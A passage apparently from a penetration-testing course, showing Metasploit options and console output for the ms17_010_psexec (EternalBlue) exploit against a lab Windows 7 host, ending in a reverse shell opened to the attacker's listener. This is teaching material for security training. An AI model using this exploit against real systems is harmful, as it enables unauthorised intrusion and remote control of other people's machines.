 ```shell-session
   SERVICE_NAME                                                   no        The service name
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

Once everything is set and ready to go, we can proceed to launch the attack. Note that the payload was not set here, as the default one is sufficient for this demonstration.

**MSF - Exploit Execution**

Modules

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2020-08-13 21:37:21 +0000
```
